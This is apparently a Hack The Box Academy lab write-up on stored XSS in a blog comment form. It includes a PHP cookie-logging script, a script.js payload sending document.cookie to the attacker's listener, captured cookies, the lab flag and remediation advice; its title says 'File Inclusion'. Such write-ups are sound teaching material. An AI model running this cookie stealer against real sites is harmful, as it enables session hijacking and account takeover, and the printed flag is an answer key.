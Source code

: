 # Write-up: File Inclusion

| Vulnerability | Difficulty | Platform | Key concepts |
| :--- | :--- | :--- | :--- |
| Cross-Site Scripting | Easy | Hack The Box Academy | Session Hijacking, Blind XSS Detection |

---

# Context
We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new Security Blog. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the /assessment directory on the server using the browser:

![Welcome to security blog page](./assets/assessment.png "Blog view")

Apply the skills you learned in this module to achieve the following:

Identify a user-input field that is vulnerable to an XSS vulnerability
Find a working XSS payload that executes JavaScript code on the target's browser
Using the Session Hijacking techniques, try to steal the victim's cookies, which should contain the flag

# Exercise

What is the value of the 'flag' cookie?

# Process
## Step 1 "Search Vulnerable Field"
I started by searching for a vulnerable field, in the blogs you can leave a comment so I decided to try here.
![Leave a comment to the blog](./assets/comment-section.png "Comment section")

I also notice that comments must be approved first, so I will not see the result of my payload until someone approves my comment.
> (Note: comments must be approved by an admin, so submitting them may take a few seconds.)

in this case we need to send a payload that calls a server on our side to see if the payload worked.

## Step 2 "Sending payload to internal server"
The next thing we need to do is start a simple server to receive calls:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $ifconfig tun0
tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.68  netmask 255.255.254.0  destination 10.10.15.68
        inet6 fe80::4e3c:eb7e:64ad:9178  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef:2::1142  prefixlen 64  scopeid 0x0<global>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 76  bytes 51024 (49.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 83  bytes 8601 (8.3 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $sudo php -S 10.10.15.68:8080
[sudo] password for delmed: 
[Wed Sep 17 15:34:39 2025] PHP 8.2.29 Development Server (http://10.10.15.68:8080) started
```
then we can send our payload in all fields (except for those that require a format) to discover which field is vulnerable.
![Adding payload that calls to my server](./assets/comment-payload.png "Comment payloads discovery")

After sending the comment we should receive a call in our server:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $sudo php -S 10.10.15.68:8080
[sudo] password for delmed: 
[Wed Sep 17 15:34:39 2025] PHP 8.2.29 Development Server (http://10.10.15.68:8080) started
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55708 Accepted
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55710 Accepted
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55708 [200]: GET /website
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55708 Closing
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55710 Closed without sending a request; it was probably just an unused speculative preconnection
[Wed Sep 17 16:21:07 2025] 10.129.36.50:55710 Closing
```
In this case we got `/website`, that means that is the vulnerable field.

## Step 3 "Create cookie stealer files"
We first need to create a PHP file that saves the victim IP and the cookie:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
then we need to create a script.js file that executes the index file:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $cat script.js 
new Image().src='http://10.10.15.68:8080/index.php?c='+document.cookie
```

## Step 4 "Getting the flag"
Once we have everything configured we can send the payload to execute the `script.js` through the website field.
![Send executable script.js payload through website field](./assets/comment-script.png "Website payload field")

After that we will get the cookie in the server log:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $sudo php -S 10.10.15.68:8080
[sudo] password for delmed: 
[Wed Sep 17 16:29:08 2025] PHP 8.2.29 Development Server (http://10.10.15.68:8080) started
[Wed Sep 17 16:30:20 2025] 10.129.36.50:55862 Accepted
[Wed Sep 17 16:30:20 2025] 10.129.36.50:55862 [200]: GET /script.js
[Wed Sep 17 16:30:20 2025] 10.129.36.50:55862 Closing
[Wed Sep 17 16:30:21 2025] 10.129.36.50:55864 Accepted
[Wed Sep 17 16:30:21 2025] 10.129.36.50:55864 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1758169743;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
[Wed Sep 17 16:30:21 2025] 10.129.36.50:55864 Closing
```
Or we can see the information in the `cookies.txt` created by the `index.php`:
```ps
┌─[delmed@parrot]─[/tmp/tmpserver]
└──╼ $cat cookies.txt 
Victim IP: 10.129.36.50 | Cookie: wordpress_test_cookie=WP Cookie check
Victim IP: 10.129.36.50 | Cookie:  wp-settings-time-2=1758169743
Victim IP: 10.129.36.50 | Cookie:  flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
```

## Result
```
HTB{cr055_5173_5cr1p71n6_n1nj4}
```

# Conclusion
A stored Cross-Site Scripting (XSS) vulnerability exists in the blog’s comment feature and allowed JavaScript to execute in an admin’s browser. Using a simple cookie-exfiltration payload I retrieved the `flag` cookie value: `HTB{cr055_5173_5cr1p71n6_n1nj4}`. This flaw enables session theft, admin account takeover, and persistent site compromise. Remediation: apply proper output encoding, sanitize user input, mark sensitive cookies `HttpOnly`, and enforce a strict Content Security Policy.

